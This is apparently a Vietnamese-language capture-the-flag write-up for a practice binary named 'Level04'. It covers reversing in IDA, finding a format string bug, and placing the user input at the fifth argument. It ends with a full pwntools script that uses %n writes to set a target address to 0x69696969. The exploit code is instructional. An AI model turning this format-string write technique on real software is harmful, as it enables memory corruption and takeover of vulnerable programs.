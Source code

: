mình dùng IDA 32 bit để reverse chương trình được:
![image](https://hackmd.io/_uploads/HkQf761va.png)
![image](https://hackmd.io/_uploads/HymlTT1v6.png)

![image](https://hackmd.io/_uploads/HkT2pTyPT.png)
bài này có lỗi về chuỗi định dạng
![image](https://hackmd.io/_uploads/HyrRRpJD6.png)
![image](https://hackmd.io/_uploads/SJ5EJAkD6.png)
chúng ta có thể thấy đến chuỗi định dạng thứ 5 thì chúng ta đến được vị trí của chuỗi **%p** mà chúng ta nhập vào

![image](https://hackmd.io/_uploads/B1JKeCJw6.png)
![image](https://hackmd.io/_uploads/rySslRJDT.png)

chuối %p của chúng ta nhập vào ở 
vị trí esp+10Ch

4 ký tự đầu tiên chính là tham số thứ 5.
Để ô nhớ X mang giá trị 0x69696969 cần ô nhớ X mang giá trị 0x69, ô nhớ X+1 mang giá trị 0x69, ô nhớ X+2 mang giá trị 0x69, ô nhớ X+3 mang giá trị 69.
4 byte đầu là giá trị của X,  4 byte tiếp theo là giá trị X + 1, v.v…
Đã xuất ra màn hình 0x10 byte. Sử dụng "%89x" để xuất ra màn hình 0x59 byte nữa.
Cuối cùng là tham số %n để đặt giá trị. Ta sử dụng ký tự $ để xác định chính xác tham số thứ mấy tương ứng với % đó.

```python=
#!/usr/bin/python3.7

from pwn import *
context.binary = exe = ELF('./Level04')
p = process(exe.path)

p.recvuntil(b'check at ')
address = p.recvline()
address = address.decode('utf8').strip()
# address = address.replace('0x', '')
address=int(address, 16)

payload = p32(address)
payload += p32(address+1)
payload += p32(address+2)
payload += p32(address+3)
payload += f'%89x'.encode()
# payload = address
payload += f'%5$n'.encode()
payload += f'%6$n'.encode()
payload += f'%7$n'.encode()
payload += f'%8$n'.encode()
# p.sendline(str(payload).encode())
p.sendline((payload))
# p.sendline(str(data).encode())


p.interactive()
```
